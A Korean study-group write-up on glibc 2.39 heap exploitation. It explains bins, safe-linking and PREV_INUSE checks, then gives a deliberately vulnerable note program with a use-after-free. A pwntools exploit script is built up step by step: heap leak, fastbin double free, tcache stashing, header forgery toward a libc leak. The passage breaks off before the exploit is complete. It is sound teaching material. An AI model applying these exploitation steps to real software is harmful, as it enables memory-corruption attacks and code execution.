## 개요
이번 글은 루비야렙 스터디 주제중 고버전 Libc의 힙 익스플로잇에 관한 주제에<br>
대해서 3개월동안 묵혀놨다가 이제서야 풀이한 내용을 정리한 글이다. 재밋게 봐주길 바란다!

## Heap 기초
Heap 세그먼트는 동적 할당 메모리를 저장하며 `UAF, DFB`같은 기법들로<br>
AAW를 만들어 쉘을 획득하는 흐름으로 진행된다.

특히, 대부분의 구버전 Libc의 경우는 `립씨릭과 AAW를` 통해 `GOT Overwrite를` 하여 쉘을 획득하며,<br>
고버전 Libc의 경우 `힙릭, 립씨릭 그리고 AAW를` 통해 `exit_funcs, FSOP를` 수행하여 쉘을 획득하게 된다.

일단 위에 내용을 다루기 전, 간단하게 힙의 Chunks, Bins에 대해서 간단하게 다루고 넘어가도록 하자.

### 청크
기본적으로 동적할당을 하게 되면 대부분은 그 내용을 `Chunk라는 단위에` 저장하고,<br>
그 청크를 다시 `Heap 세그먼트에` 저장하여 진행하게 된다.<br>
(엄청나게 큰 요청은 mmap으로 따로 처리하니 예외로써 기억하도록 하자)

그리고 기본적으로 청크는 `헤더와 유저영역으로` 이루어져있다<br>
헤더에는 `현재 청크 크기, 이전 청크 크기, 상태 비트들이` 존재하며,<br>
유저 영역은 당연하게도 사용자가 요청한 크기만큼 데이터가 저장되게 된다.

즉, 청크의 형태는 아래와 같다고 할 수 있다.<br>
```plain
사용자가 입력한 명령어 : malloc(0x70)

 _____________________________________________
|                    |                       |
|   이전 청크 사이즈    |   현재 청크 크기 및 비트  |   (0x10바이트)
|____________________|_______________________|
|                                            |
|                                            |
|             유저 영역 (0x70바이트)            |
|                                            |
|____________________________________________|
```

즉, 청크의 크기는 `헤더크기(0x10)+요청크기(0x70)`가 된다.<br>
그리고 아래에서 다룰 재할당을 위해 청크의 크기는 `0x10의 배수가 되도록` 할당하게 되는데,<br>
이를 수행하기 위해 유저 영역 뒤에 패딩을 붙혀 청크를 할당하기도 한다.

### 빈
빈이란 재할당을 하기 위해 존재하는 연결리스트로, `청크를 free를 통해 해체하고,` 나중에 다시 할당했을때<br>
해체한 메모리를 재사용할수 있도록, 청크 자체를 연결리스트에 잠시 연결해놓는 역할을 하게 된다.

빈의 종류는 아래와 같다
```
tcache     : 0x10~0x400 크기의 청크 저장 (크기당 7개까지), 선형연결리스트
fastbin    : 0x20~0x80 크기의 청크 저장 (크기당 7개까지), 선형연결리스트
unsortbin  : 아무 크기나 정렬 없이 싹다 저장 (제한 X), 이중원형연결리스트
largebin   : 0x400+ 크기의 청크 저장 (제한 X), 이중원형연결리스트
smallbin   : 0x20~0x3f0 크기의 청크 저장 (제한 X), 이중원형연결리스트
```

아래는 청크를 bins에 저장했을때 나오는 형태이다<br>
즉, 청크의 형태는 아래와 같다고 할 수 있다.
```plain
사용자가 입력한 명령어 : free(0x70)
저장된 청크 : tcache

 _____________________________________________
|                    |                       |
|   이전 청크 사이즈    |   현재 청크 크기 및 비트  |   (0x10바이트)
|____________________|_______________________|
|                                            |
|                                            |
|        tcache에 연결된 다음 포인터 주소         |
|                                            |
|____________________________________________|
```
즉, bins에 연결된 청크는 `유저 영역을 다시 리스트의 fd,bk로` 재사용하게 되며,<br>
`tcache,fastbin의 경우는` fd만, `unsortbin,smallbin,largebin의 경우는` fd,bk순으로 적히게된다.

또한 기본적으로 각 bins들은 `구조체 포인터 배열로써` 되어있다.<br>
`예로 tcachebin을 들자면` 아래와 같다고 할 수 있다.
```plain
tcachebins[0] = (0x10 크기의 청크 저장용 헤드)
tcachebins[1] = (0x20 크기의 청크 저장용 헤드)
tcachebins[2] = (0x30 크기의 청크 저장용 헤드)
.
.
.
tcachebins[62] = (0x3f0크기의 청크 저장용 헤드)
tcachebins[63] = (0x400크기의 청크 저장용 헤드)
```

또한 free를 하였을땐, 청크를 저장하기 위해 `tcache -> fastbin -> unsortbin` 순으로 체크하며 저장하게 되고,<br>
malloc을 하였을땐, `tcache -> fastbin -> small/largebin -> unsortbin -> 새할당` 순으로 재할당하게 된다.

추가적으로 위에서 말했듯, `fastbin과 tcache의` 경우는 한 크기당 `7개의 청크를` 저장할 수 있다.<br>
즉, `0x10바이트의` 크기의 청크들을 `총 7번까지` free하면 모두 `tcache의 들어가지만,`<br>
그 이후엔 `fastbin에 들어가고` 또 거기서 `7개의 청크가` 차게되면 이후엔 `unsortbin으로 들어가게 되는것이다.`

그리고 `malloc을` 통해 할당을 하는 과정에서 `unsortbin 순회 까지` 도달하게 되면, `unsortbin에` 있는 청크들을<br>
분류하여 `smallbin, largebin에 넣어` 정리하고,<br>
`fastbin까지 순회하는` 과정에서, `tcache가` 비어있는데 `fastbin에` 청크가 있다면, 이를 옮기는 <br>
`"Stashing"이라는 동작도` 하게 된다. 

### 구/신버전 익스플로잇
기본적으로 `RELRO가 적용되지 않고 Libc 버전이 낮은 익스플로잇은` 상대적으로 익스플로잇 자체가 `쉬운 편이다.`<br>
왜냐하면 일단 `Partical RELRO` 이기에, PIE만 꺼져있다면 아무런 릭없이 `AAW로 Got을 덮어` 쉘을 획득할 수 있고,<br>
연결리스트에 주소를 저장하는것 또한 `평문으로` 저장하고, 주소를 막 연결해도 체크가 별로 없기 때문이다.

하지만, 그에 반해서 `RELRO가 있고 Libc 버전이 높은 익스플로잇은` 익스플로잇 자체가 상당히 까다롭다. <br>
일단 GOT을 덮을수 없기에, `Libc, FS등의` 릭을 선행한 후 `FSOP, Exit_funcs`으로 쉘을 획득해야하고, <br>
주소 자체도 `Glibc 2.32+` 버전은 `Safe-linking을` 통한 주소 암호화가 `tcache, fastbin에` 걸려있어서 <br>
힙 릭도 선행되어야한다. 또한 `Malloc, Free를 할 때마다` 청크의 상태를 확인하는 코드가 상당히 많기에, <br>
이 조건도 모두 맞춰서 진행을 해야한다.

이제 스터디를 진행하며 꼭 알아야했던 신버전 익스플로잇 보안 기법들에 대해 아래에서 다뤄보도록 하겠다.

### Safe-linking (Glibc 2.32+)
Safe-linking이란, `tcache,fastbin에서` 포인터 변조, 더블 프리등이 계속 일어나는걸 막기 위해,<br>
`Glibc 2.32+ 버전부터` 생긴 보안 기법으로, `tcache,fastbin의 fd를` 아래와 같이 암호화 하게 된다.
```plain
fd주소 XOR (힙베이스>>12)
```
즉, 힙베이스를 넣으려는 `fd주소에 연산하여` 포인터를 적게된다.<br>
그래서 `tcache, fastbin의 fd를 조작하기 위해선,` 힙베이스 주소가 무엇인지 알아내기 위해<br>
`힙릭이` 필수적으로 필요하다.

하지만 힙릭을 하는 방법은 생각보다 쉽다.<br>
`tcache, fastbin의` 가장 맨 뒤 청크는 `next가 NULL로써` 저장되며,<br>
만약 `Safe-linking이 켜져있다면,` 아래와 같이 연산되게 된다.
```plain
NULL XOR (힙베이스>>12)
```
하지만, 어떤값에 0을 XOR하면 결국엔 그 어떤값이 되어버리므로, 사실상 맨 뒤 청크의 주소는 `힙베이스>>12`가 되어버린다.<br>
그래서 맨 뒤 청크의 fd를 릭할수만 있다면, `<<12`를 수행하여 간단하게 힙 베이스를 릭할 수 있다.

### PREV_INUSE Check (Glibc 2.3.4+)
PREV_INUSE Check란, Free를 진행할때, `현재 해체하려는 청크가 tcache, fastbin에 들어갈 수 없는 경우`<br>
`현재 청크 주소 + 청크 크기`를 수행하여 바로 그 주소에 존재하는 `청크의 비트에 PREV_INUSE`<br>
즉, 바로 앞 청크가 `사용중이라는 비트가` 켜져있는지 확인하게 된다. <br>
(PREV_INUSE비트는 헤더에서 청크 크기 최하위 비트가 1로 켜져있어야한다.)

그래서 만약, 익스플로잇을 하던중, `현재 청크가 fastbin,tcache에` 들어갈 수 없고,<br>
`PREV_INUSE 조건을` 만족하지 않는다면, Free를 하기전, `현재 청크 주소 + 청크 크기`에 PREV_INUSE가 켜져있는 청크를<br>
위치해놓는것이 선행되어야할 것이다.

## 문제 풀이
이제 위에서 어느정도의 개념을 정리한 것 같으니, 익스플로잇을 진행해보도록하자.
```c
// PIE, FULL RELRO, STACK_CANARY, NX BIT, ASLR, LIBC 2.41

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char *notes[0x30];

void setup() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

void print_menu() {
    puts("1. new");
    puts("2. read");
    puts("3. delete");
    puts("4. exit");
    printf("> ");
}

int get_int() {
    int v;
    scanf("%d", &v);
    getchar();
    return v;
}

void new_note() {
    int idx;
    unsigned long size;

    printf("idx: ");
    idx = get_int();
    if (idx < 0 || idx >= 0x30) {
        puts("invalid idx");
        return;
    }

    printf("size: ");
    scanf("%lu", &size);
    getchar();
    if (size > 0x70) {
        puts("too big");
        return;
    }

    notes[idx] = malloc(size);
    if (!notes[idx]) {
        puts("malloc failed");
        return;
    }

    printf("data: ");
    //memset(notes[idx], 0, size);
    read(0, notes[idx], size);
}

void read_note() {
    int idx;

    printf("idx: ");
    idx = get_int();
    if (idx < 0 || idx >= 0x30) {
        puts("invalid idx");
        return;
    }

    printf("note[%d]: %s\n", idx, notes[idx]);
}

void delete_note() {
    int idx;

    printf("idx: ");
    idx = get_int();
    if (idx < 0 || idx >= 0x30) {
        puts("invalid idx");
        return;
    }

    free(notes[idx]);
    //notes[idx] = NULL;
}

int main() {
    setup();

    while (1) {
        print_menu();
        int choice = get_int();

        switch (choice) {
            case 1: new_note();    break;
            case 2: read_note();   break;
            case 3: delete_note(); break;
            case 4: exit(0);
            default: puts("invalid choice");
        }
    }

    return 0;
}
```
### 문제 설명
간단히 코드를 분석해보면, `노트를 생성하고, 읽고, 없에는 기능이` 존재하는걸 알 수 있으며,<br>
전역 배열로 총 `0x30개의 노트를 저장할 수 있도록` 만들어 놓은 것을 알 수 있다.<br>
또한 노트를 만들땐 `0x70 크기 이하의 메모리만` 할당할 수 있으며,<br>
데이터를 읽을 땐, `배열에 있는 값을 마음대로 출력하고,` <br>
데이터를 삭제할땐 `인덱스를 통해 동적 할당 메모리를 해체하는것을` 알 수 있다.

또한 `보안 기법과 GLIBC를` 확인해보면 아래와 같은것을 알 수 있었다.

즉, GLIBC는 2.39에, RELRO가 켜져있는것을 알 수 있다.

### 취약점 분석
일단 코드를 보면 `노트를 삭제할때` 메모리 자체는 해체를 하지만, 노트를 저장하는 0x30 크기의 배열에 포인터는<br>
초기화 하지 않음을 통해, `해체된 청크를 마음대로 읽을 수 있는 UAF가` 일어나는것을 알 수 있다.<br>
또한 청크를 할당하는것을 `0x70 크기 이하로 명시두었기에,` 즉시 unsortbin에 할당하여 Libc릭을 하는것은 불가능하고,<br>
`tcache를 채워 unsortbin으로` 이동시키거나, `크기 헤더를 조작하여` unsortbin에 넣는식의 방식으로 립씨릭을 진행해야할 것이다.
또한 `GLIBC가 2.39`라서, 맨앞에서 다뤘던 `모든 보안 기법이` 적용되어있는것을 알 수 있고,<br>
RELRO가 켜져있어서 `GOT Overwrite가` 아닌 `FSOP, Exit_funcs로` 쉘 획득을 진행해야하는것을 알 수 있다.

### 힙 릭
일단 뭐가 되었든 익스를 하기 위해, `힙릭이` 선행되어야하기에, 간단히 `tcache에 청크를 하나` 연결하고<br>
read로 읽어서 `릭한 후 복호화하여` 힙릭을 진행해주었다. (참고로 함수를 정의하여 진행해주었다.)
```python
from pwn import *

p = remote('localhost',1337)
context.log_level='debug'

def new(idx,size,data):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"1")
    p.sendlineafter(b"idx: ",str(idx).encode())
    p.sendlineafter(b"size: ",str(size).encode())
    p.sendafter(b"data: ",data)

def read(idx,len):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"2")
    p.sendlineafter(b"idx: ",str(idx).encode())
    p.recvuntil(f"note[{idx}]: ".encode(),drop=True)
    return u64(p.recvn(len).ljust(8,b"\x00"))

def delete(idx):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"3")
    p.sendlineafter(b"idx: ",str(idx).encode())

def exit():
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"4")

def enc(target, heap):
    return target^(heap>>12)

# heap leak
pause()
new(1,0x10,b"leak")
delete(1)
heap = read(1,5) << 12
print(f"heap leak : {hex(heap)}")
new(1,0x10,b"exit")
```

실행한 결과, 힙 릭이 정말 잘 되는것을 알 수 있었다.



### 립씨 릭
이제 립씨 릭을 해보도록 하자. 일단 립씨릭은 뭐가되었든 `unsortbin에 청크를 하나` 연결해서<br>
헤드 간의 루핑을 만든 후, `fd를 읽어 unsortbin 헤드를 릭함으로써` 립씨릭이 진행되므로,<br>
뭐가 되었든 `청크를 unsortbin에` 연결해야할 것이다.<br>
앞서 말했듯, unsortbin에 청크를 넣는 방법은 다양한 방법이 있겠지만,

이번 익스에선 `청크의 헤더를 조작하는 방법으로` 진행하게 되었다.<br>
헤더를 조작하기 위해선 AAW를 하기위해 `House of Botcake, House of Lore`등<br>
여러 기법을 활용할 수 있지만, 나는 그냥 클래식하게 DFB로 진행하였다<br>
`tcache에서만` dfb를 검증하고, `fastbin에선` dfb를 검증하지 않는걸 이용해<br>
`tcache에` 청크를 채워넣고, `fastbin에서` A->B->A 형태의 DFB를 만듬으로써<br>
AAW 환경을 만들 수 있을 것이다.

또한 `tcache를 비워` Stashing한 다음에 `DFB를 활용해 헤더 주소를 tcache에 연결하고`<br>
헤더 주소를 할당함과 동시에 조작하여 `unsortbin에 즉시 들어가는 크기로` 조작한다음<br>
PREV_INUSE Check를 우회하기 위해 `뒷 부분에 패딩 청크를 할당한 후,`<br>
헤더가 조작된 청크를 해체하여 unsortbin에 적재할 수 있을것이다.

#### 청크 할당 및 tcache 포화
이제 간단하게 필요한 청크들을 할당하고, tcache를 채워 환경을 만들어보도록하자.<br>
일단, 간단히 tcache채우기용 청크 7개, DFB용 청크 2개를 할당해주고,<br>
이후 청크 7개를 해체하여 tcache를 채워주었다.
```python
from pwn import *

p = remote('localhost',1337)
context.log_level='debug'

def new(idx,size,data):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"1")
    p.sendlineafter(b"idx: ",str(idx).encode())
    p.sendlineafter(b"size: ",str(size).encode())
    p.sendafter(b"data: ",data)

def read(idx,len):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"2")
    p.sendlineafter(b"idx: ",str(idx).encode())
    p.recvuntil(f"note[{idx}]: ".encode(),drop=True)
    return u64(p.recvn(len).ljust(8,b"\x00"))

def delete(idx):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"3")
    p.sendlineafter(b"idx: ",str(idx).encode())

def exit():
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"4")

def enc(target, heap):
    return target^(heap>>12)

# heap leak
pause()
new(1,0x10,b"leak")
delete(1)
heap = read(1,5) << 12
print(f"heap leak : {hex(heap)}")
new(1,0x10,b"exit")

# libc leak
pause()
for i in range(1,8,1):
    new(i,0x20,str(i).encode())
new(8,0x20,b"one"); new(9,0x20,b"two")
for i in range(1,8,1):
    delete(i) 
```

실행 결과, 의도한대로 `tcache에` 청크가 모두 채워지고,<br>
나머지 `DFB용 청크 두개가` 할당되어있는걸 볼 수 있다.


#### DFB 일으켜 AAW 환경 구성
기본적으로 DFB가 일어나면, `해체된 청크를` 직접적으로 바꾸는것이 아닌,
`할당과 함께 청크 쓰기만` 가능한 환경에서도 `임의의 주소를 bins에` 연결할 수 있고,
이를 활용하여 `AAW 환경까지` 구축할 수 있다. 이제 이 환경을 구성하기 위해,
청크를 `8, 9, 8 순서로` 해체하여 DFB를 일으킬 수 있다.
```python
from pwn import *

p = remote('localhost',1337)
context.log_level='debug'

def new(idx,size,data):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"1")
    p.sendlineafter(b"idx: ",str(idx).encode())
    p.sendlineafter(b"size: ",str(size).encode())
    p.sendafter(b"data: ",data)

def read(idx,len):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"2")
    p.sendlineafter(b"idx: ",str(idx).encode())
    p.recvuntil(f"note[{idx}]: ".encode(),drop=True)
    return u64(p.recvn(len).ljust(8,b"\x00"))

def delete(idx):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"3")
    p.sendlineafter(b"idx: ",str(idx).encode())

def exit():
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"4")

def enc(target, heap):
    return target^(heap>>12)

# heap leak
pause()
new(1,0x10,b"leak")
delete(1)
heap = read(1,5) << 12
print(f"heap leak : {hex(heap)}")
new(1,0x10,b"exit")

# libc leak
pause()
for i in range(1,8,1):
    new(i,0x20,str(i).encode())
new(8,0x20,b"one"); new(9,0x20,b"two")
for i in range(1,8,1):
    delete(i)    
pause()
delete(8); delete(9); delete(8)
```

실행 결과 Fastbin에 원하는대로 `8 -> 9 -> 8 -> 9 ..` 형태의<br>
`DFB 루핑이` 정말 잘 일어나는것을 알 수 있다.


#### tcache Stashing 및 헤더 주소 연결
이제 DFB를 만들었으니, tcache를 비운후 `fastbin에 루핑을 tcache로 옮기고,`<br>
`8번 청크를` 할당함과 동시에 헤더 주소를 써서 `9 -> 8 -> 헤더` 형태를 완성할 수 있을 것이다.<br>
참고로 여기서` tcache stashing은` fastbin에 연결된 가장 맨 뒤 청크부터 tcache에 연결하게 된다.<br>
즉, 만약 Fastbin에서 연결된 청크가 `1 -> 2 -> 3`이면, tcache에 Stashing되었을땐,<br>
`3 -> 2 -> 1`순으로 연결되게 된다. 하지만, 현재 DFB 루핑은 `8 -> 9 -> 8 -> 9 ...` 형태이기에,<br>
반대로 돌려도 결국 `8 -> 9 -> 8 -> 9`가 되어서 익스엔 별 지장이 없이 진행된다. <br>
또한 tcache의 경우는 `Safe-linking을` 사용하기에, 주소를 암호화하여 넣어주었다.

그리고 연결할 헤더는 기본적으로 지금 익스를 진행하며 가장 최근에 할당한 `9번 청크의` 헤더 주소를 연결해줄 것이다.<br>
현재 힙 릭이 이미 되어있기에, 간단히 `9번 청크의` 헤더주소 오프셋을 디버깅을 통해 구해주었더니 아래와 같았다.

즉, 디버깅 결과 헤더와 힙릭 주소의 오프셋은 `0x430`인것을 알 수 있었다.

이제 코드를 짜보면 아래와 같다
```python
from pwn import *

p = remote('localhost',1337)
context.log_level='debug'

def new(idx,size,data):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"1")
    p.sendlineafter(b"idx: ",str(idx).encode())
    p.sendlineafter(b"size: ",str(size).encode())
    p.sendafter(b"data: ",data)

def read(idx,len):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"2")
    p.sendlineafter(b"idx: ",str(idx).encode())
    p.recvuntil(f"note[{idx}]: ".encode(),drop=True)
    return u64(p.recvn(len).ljust(8,b"\x00"))

def delete(idx):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"3")
    p.sendlineafter(b"idx: ",str(idx).encode())

def exit():
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"4")

def enc(target, heap):
    return target^(heap>>12)

# heap leak
pause()
new(1,0x10,b"leak")
delete(1)
heap = read(1,5) << 12
print(f"heap leak : {hex(heap)}")
new(1,0x10,b"exit")

# libc leak
pause()
for i in range(1,8,1):
    new(i,0x20,str(i).encode())
new(8,0x20,b"one"); new(9,0x20,b"two")
for i in range(1,8,1):
    delete(i)    
delete(8); delete(9); delete(8)
for i in range(1,8,1):
    new(i,0x20,str(i).encode())
victim = heap+0x430
new(8,0x20,p64(enc(victim,heap)))
```

실행 결과, 원하는대로 `9번 청크의 헤더가 유저 영역으로써` tcache에 연결된 것을<br>
디버깅을 통해 매우 잘 확인할 수 있었다.


#### 헤더 조작
이제 tcache에 헤더 주소가 잘 연결되었으니, `빠르게 세번 0x20 크기를 할당하여,`<br>
마지막에 `헤더 주소를 할당받을 수 있다.` 또한 마지막에 할당받음과 동시에 헤더에 값을 쓸 수가 있는데,<br>
대강 unsortbin에 바로 들어갈 수 있는 `적당한 값인 0x420에`, 혹시나 병합을 통해 터지는 이슈를 줄이기 위해<br>
`PREV_INUSE 비트를 더하여 0x421을` 현재 청크 크기 부분에 덮어써주었다. 
```python
from pwn import *

p = remote('localhost',1337)
context.log_level='debug'

def new(idx,size,data):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"1")
    p.sendlineafter(b"idx: ",str(idx).encode())
    p.sendlineafter(b"size: ",str(size).encode())
    p.sendafter(b"data: ",data)

def read(idx,len):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"2")
    p.sendlineafter(b"idx: ",str(idx).encode())
    p.recvuntil(f"note[{idx}]: ".encode(),drop=True)
    return u64(p.recvn(len).ljust(8,b"\x00"))

def delete(idx):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"3")
    p.sendlineafter(b"idx: ",str(idx).encode())

def exit():
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"4")

def enc(target, heap):
    return target^(heap>>12)

# heap leak
pause()
new(1,0x10,b"leak")
delete(1)
heap = read(1,5) << 12
print(f"heap leak : {hex(heap)}")
new(1,0x10,b"exit")

# libc leak
pause()
for i in range(1,8,1):
    new(i,0x20,str(i).encode())
new(8,0x20,b"one"); new(9,0x20,b"two")
for i in range(1,8,1):
    delete(i)    
delete(8); delete(9); delete(8)
for i in range(1,8,1):
    new(i,0x20,str(i).encode())
victim = heap+0x430
new(8,0x20,p64(enc(victim,heap)))
new(9,0x20,b"8")
new(8,0x20,b"7")
payload = p64(0)
payload += p64(0x421)
new(10,0x20,payload)
pause()
```

이제 실행해보면 할당된 청크에 `0x420 크기의 청크가` 존재하는것을 볼 수 있었다.


#### 패딩 청크 생성 및 립씨 릭
현재, `9번 청크는 조작을 통해` 크기를 바꾼 것이기에, 당연하게도 `9번청크 주소에 +0x420을` 한 곳에는<br>
청크가 존재하지 않고, 심지어 9번 청크 이후 새로 할당한 청크가 없기에, `Top Chunk안 어딘가를 가리킬것이다.`<br>
